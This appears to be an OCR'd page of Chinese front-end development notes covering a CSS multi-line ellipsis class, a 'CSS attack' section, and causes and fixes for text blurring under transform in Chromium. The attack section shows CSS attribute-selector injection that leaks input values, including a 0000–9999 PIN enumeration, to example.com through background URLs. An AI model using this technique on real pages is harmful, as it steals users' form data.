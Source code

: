 ```css
 .overflow3 {
    display: -webkit-box;
    overflow: hidden;
    text-overflow: ellipsis;
    word-break: break-all;
    -webkit-box-orient: vertical;
    -webkit-line-clamp: 3;
    white-space: normal;
}
```

### css 攻击

```html
1、style-src 中的“unsafe-inline” 通过css窃取页面数据
<html>
  <style>
    input[value="a"] { background: url(https://example.com/?value=a); }
  </style>
<input type=text value=a>
    
    
<html>
  <style>
    input[value="0000"] { background: url(https://example.com/?value=0000); }
    input[value="0001"] { background: url(https://example.com/?value=0001); }
    ...
    input[value="9998"] { background: url(https://example.com/?value=9998); }
    input[value="9999"] { background: url(https://example.com/?value=9999); }
  </style>
<input name=pin type=number value=1337>
```

### 运用 transform 导致文本模糊的现象

```js
问题： 一块区域内的文本或者边框，在展示的时候，变得特别的模糊

1、当文本元素的某个祖先容器存在 transform: translate() 或者 transform: scale() 等 transform 操作时，容易出现这种问题
	必要不充分条件
2、元素作用了 transform: translate() 或者 transform: scale() 后的计算值产生了非整数
	必要不充分条件，不是所有小数值情况都会导致
    
3、文本内容是否模糊还与屏幕有关，高清屏（dpr > 2）下不容易触发，更多发生在普通屏幕下（dpr = 1）

	dpr = 物理像素 / 设备独立像素，表示设备像素比。这个与我们通常说的视网膜屏（多倍屏，Retina屏）有关。设备像素比描述的是未缩放状态下，物理像素和设备独立像素的初始比例关系。

4、并非所有浏览器都是这个表现，基本发生在 chromium 内核。
为何发生这种现象呢？
那么，为何会发生这种现象？针对这个问题，没有找到特别官方的回答，普遍的认为是因为：

由于浏览器将图层拆分到 GPU 以进行 3D 转换，而非整数的像素偏移，使得 Chrome 在字体渲染的时候，不是那么的精确。

社区里给出的一种方案：

-▪给元素设置 -webkit-font-smoothing: antialiased
font-smooth CSS 属性用来控制字体渲染时的平滑效果，该特性是非标准的，我们应该尽量不要在生产环境中使用它。并且在我的实测中，这个方法不太奏效。

-▪保证运用了 transform: translate() 或者 transform: scale() 的元素的高宽为偶数

	如果你赋予给元素的 transform 的值非常明确，譬如我上文例子中的利用其来对元素进行水平垂直居中 -- transform: translate(-50%, -50%)，让元素的高宽为偶数这个方法是可行的，但如果当你无法确定transform 的值，譬如 transform: translateX(-31.24%) 或者是 transform: scale(1.05)，那这个方法依旧无法奏效。

```